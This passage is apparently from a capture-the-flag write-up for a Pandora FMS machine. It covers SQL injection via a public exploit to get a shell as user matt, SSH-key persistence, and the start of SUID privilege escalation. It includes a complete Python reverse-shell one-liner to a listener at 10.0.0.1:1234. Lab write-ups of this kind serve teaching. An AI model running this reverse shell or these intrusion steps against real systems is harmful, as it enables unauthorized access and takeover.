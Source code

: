 This version is vulnerable to Remote code execution and SQL injection but RCE requires user creds so my only option left is SQLi.

Using [this github source](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated), I can spawn a shell as user **matt**:

`sudo python sql.py -t 127.0.0.1 -f rev.php`

![](https://i.imgur.com/chVOtIN.png)


Since the shell is very restricted, I will spawn another reverse shell through this shell connection by running the following command towards my netcat listener running on Kali machine:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now I have a shell as matt:

![](https://i.imgur.com/EVqUjfM.png)



### SSH Persistence

Since reverse shell connection is not stable, I will further develop my privilege as matt by creating ssh key.

Following [this guide](https://jadu101.github.io/Persistence%F0%9F%A5%B7%F0%9F%8F%BB/Linux-Persistence#ssh-as-root), I will create ssh private and public key on matt's home directory:

![](https://i.imgur.com/Kdti8Gp.png)


Now using the private key, I can SSH-in as user **matt**:

`ssh -i mykey matt@10.10.11.136`

![](https://i.imgur.com/TnWKSJm.png)





## Privesc: matt to root
### SUID

Remembering about interesting SUID found earlier, I will take a look at `/usr/bin/pandora_backup`

![](https://i.imgur.com/7z9MlQv.png)

Root owns this file but group matt can run this file as root. 

Running the file, I can see that backup is being made to some end point:

